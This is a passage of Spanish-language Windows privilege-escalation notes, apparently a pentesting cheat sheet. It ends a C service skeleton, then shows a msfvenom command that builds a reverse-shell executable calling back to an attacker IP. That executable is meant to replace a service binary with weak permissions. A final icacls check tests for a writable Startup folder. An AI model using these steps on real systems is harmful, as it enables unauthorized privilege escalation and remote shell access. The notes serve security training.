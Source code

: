 ```c
		Sleep(SLEEP_TIME);
    }
    return; 
}

void ControlHandler(DWORD request) 
{ 
    switch(request) 
    { 
        case SERVICE_CONTROL_STOP: 
			ServiceStatus.dwWin32ExitCode = 0; 
            ServiceStatus.dwCurrentState  = SERVICE_STOPPED; 
            SetServiceStatus (hStatus, &ServiceStatus);
            return; 
 
        case SERVICE_CONTROL_SHUTDOWN: 
            ServiceStatus.dwWin32ExitCode = 0; 
            ServiceStatus.dwCurrentState  = SERVICE_STOPPED; 
            SetServiceStatus (hStatus, &ServiceStatus);
            return; 
        
        default:
            break;
    } 
    SetServiceStatus (hStatus,  &ServiceStatus);
    return; 
} 
```

### Executable Files

Si se cuenta con `File Permissions: Everyone [AllAccess]` en el binario de un servicio, se puede modificar el binario e inicar el servicio.

![Permisos en binario de servicios](images/file_perm_service.png)

```bash
msfvenom -p windows/shell_reverse_tcp lhost=10.18.12.69 lport=1234 -f exe -o filepermservice.exe

# Remplazar binario e iniciar servicio en windows
sc start filepermsvc
```

### Startup Applications

```powershell
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

Si el comando devuelve `BUILTIN\Users:(F)` asociando "full access" con la F es explotable. Documentación acerca de [icacls y la representación de los permisos](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls).
